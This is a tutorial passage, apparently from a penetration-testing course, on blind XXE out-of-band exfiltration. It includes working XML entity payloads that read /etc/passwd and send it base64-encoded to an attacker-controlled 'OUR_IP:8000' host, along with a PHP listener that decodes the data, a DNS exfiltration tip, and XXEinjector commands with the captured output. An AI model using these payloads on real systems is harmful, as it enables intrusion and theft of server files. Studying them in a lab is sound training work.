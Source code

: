 Blind Data Exfiltration

In the previous section, we saw an example of a blind XXE vulnerability, where we did not receive any output containing any of our XML input entities. As the web server was displaying PHP runtime errors, we could use this flaw to read the content of files from the displayed errors. In this section, we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.
Out-of-band Data Exfiltration

If we try to repeat any of the methods with the exercise we find at /blind, we will quickly notice that none of them seem to work, as we have no way to have anything printed on the web application response. For such cases, we can utilize a method known as Out-of-band (OOB) Data Exfiltration, which is often used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS, and of course, blind XXE. Both the Cross-Site Scripting (XSS) and the Whitebox Pentesting 101: Command Injections modules discussed similar attacks, and here we will utilize a similar attack, with slight modifications to fit our XXE vulnerability.

In our previous attacks, we utilized an out-of-band attack since we hosted the DTD file in our machine and made the web application connect to us (hence out-of-band). So, our attack this time will be pretty similar, with one significant difference. Instead of having the web application output our file entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.

To do so, we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the file parameter value as part of the URL being requested over HTTP, as follows:
Code: xml

<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">

If, for example, the file we want to read had the content of XXE_SAMPLE_DATA, then the file parameter would hold its base64 encoded data (WFhFX1NBTVBMRV9EQVRB). When the XML tries to reference the external oob parameter from our machine, it will request http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB. Finally, we can decode the WFhFX1NBTVBMRV9EQVRB string to get the content of the file. We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:
Code: php

<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

So, we will first write the above PHP code to index.php, and then start a PHP server on port 8000, as follows:
Blind Data Exfiltration

swmpdnky@htb[/htb]$ vi index.php # here we write the above PHP code
swmpdnky@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started

Now, to initiate our attack, we can use a similar payload to the one we used in the error-based attack, and simply add <root>&content;</root>, which is needed to reference our entity and have it send the request to our machine with the file content:
Code: xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>

Then, we can send our request to the web application: blind_request

Finally, we can go back to our terminal, and we will see that we did indeed get the request and its decoded content:
Blind Data Exfiltration

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...

Tip: In addition to storing our base64 encoded data as a parameter to our URL, we may utilize DNS OOB Exfiltration by placing the encoded data as a sub-domain for our URL (e.g. ENCODEDTEXT.our.website.com), and then use a tool like tcpdump to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.
Automated OOB Exfiltration

Although in some instances we may have to use the manual method we learned above, in many other cases, we can automate the process of blind XXE data exfiltration with tools. One such tool is XXEinjector. This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

To use this tool for automated OOB exfiltration, we can first clone the tool to our machine, as follows:
Blind Data Exfiltration

swmpdnky@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...

Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write XXEINJECT after it as a position locator for the tool:
Code: http

POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT

Now, we can run the tool with the --host/--httpport flags being our IP and port, the --file flag being the file we wrote above, and the --path flag being the file we want to read. We will also select the --oob=http and --phpfilter flags to repeat the OOB attack we did above, as follows:
Blind Data Exfiltration

swmpdnky@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:

We see that the tool did not directly print the data. This is because we are base64 encoding the data, so it does not get printed. In any case, all exfiltrated files get stored in the Logs folder under the tool, and we can find our file there:
Blind Data Exfiltration

swmpdnky@htb[/htb]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..

Try to use the tool to repeat other XXE methods we learned.